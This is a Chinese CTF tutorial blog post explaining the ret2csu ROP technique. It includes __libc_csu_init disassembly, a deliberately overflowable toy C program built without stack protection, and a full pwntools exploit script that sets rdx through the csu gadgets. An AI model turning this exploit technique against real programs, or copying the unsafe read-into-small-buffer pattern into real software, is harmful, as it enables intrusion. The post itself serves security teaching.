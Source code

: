 ```yaml
---
title: 「PWN」最基础的 ret2csu
tags: ['CTF', 'Pwn', ]
categories: ['CTF']
authors: [nova]
---
```

# RET2CSU

## 0x01 为什么需要ret2csu？

在64bits的ELF文件中，函数调用的前六个参数是分别存放在*rdi、rsi、rdx、rcx、r8、r9*这六个寄存器当中的，而我们在实际构建ROP时很难找到对应的gadgets（大部分情况下是找不到rdx），而ret2csu的关键点就在于使用`__libc_csu_init()`来获取两个gadgets来进行万能传参（同时泄露出函数真实地址）


<!--truncate-->
## 0x02 __libc_csu_init()

`__libc_csu_init()`是用来对libc进行初始化操作的函数，而绝大部分软件都会调用到libc，因此我们可以认为`__libc_csu_init()`基本算程序通用的函数之一

。这里，我们随便打开一个64bitELF文件查看一下它。

```assembly
.text:0000000000401250 loc_401250:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000401250                 mov     rdx, r14
.text:0000000000401253                 mov     rsi, r13
.text:0000000000401256                 mov     edi, r12d
.text:0000000000401259                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040125D                 add     rbx, 1
.text:0000000000401261                 cmp     rbp, rbx
.text:0000000000401264                 jnz     short loc_401250
.text:0000000000401266
.text:0000000000401266 loc_401266:                             ; CODE XREF: __libc_csu_init+35↑j
.text:0000000000401266                 add     rsp, 8
.text:000000000040126A                 pop     rbx
.text:000000000040126B                 pop     rbp
.text:000000000040126C                 pop     r12
.text:000000000040126E                 pop     r13
.text:0000000000401270                 pop     r14
.text:0000000000401272                 pop     r15
.text:0000000000401274                 retn

```

从这里我们可以看出，我们可以让`r15+rbx*8`为我们所要执行函数的指针，`edi、rsi、rdx`可以分别作为函数的参数

在通常情况下，我们一般让`rbx=0，rbp=1`，这样可以赋值`r15`为指向函数的指针，如此一来便大大化简了我们使用gadgets的难度。



## 0x03 实战

在这里，我只准备对ret2csu的原理进行探究（因为还有半个小时就要打HGAME辣），所以我写了一个简单的程序，它会直接泄露出函数实际地址

source:

```c
#include<stdio.h>
#include<unistd.h>

int vul(int a,int b,int c){
    if(c == 233)
        printf("Big Hacker!\n");
    return 0;
}

int main(){
    char buf[30];
    int (*ptr)(int a,int b,int c) = vul;
    printf("gift: %p\n", &ptr);
    read(0,buf,0x100);
    return 0;
}

```

编译:

```bash
gcc -m64 -fno-stack-protector -no-pie ret2csu_64bits.c -o ret2csu_64bits
```



很简单，我们只需要利用`__libc_csu_init()`将rdx赋值为233就好了

而我们使用ROPgadgets可以发现是没有一个gadgets能让我们这样做的

![ROPgadgets](https://cdn.novanoir.moe/img/image-20220120193316710.png)

这时候我们就需要进行ret2csu了

```python
def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload
```



值得注意的是，执行完gadget1之后，程序顺序执行会再次执行gadget2，因此，我们需要再填充一次`(7*0x8)`的垃圾数据防止出现错误

完整payload：

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./ret2csu_64bits')
elf = ELF('./ret2csu_64bits')

sh.recvuntil(b"gift: ")
vul_addr = int(sh.recvline(), 16)
csu_gadget1_addr = 0x401250
csu_gadget2_addr = 0x401266


def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Panding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload

gdb.attach(sh)
payload = b'A'*(0x20+0x08) + csu(csu_gadget1_addr, csu_gadget2_addr, 0, 1, 0, 0, 233, vul_addr, elf.sym['main'])
sh.sendline(payload)
sh.interactive()

```


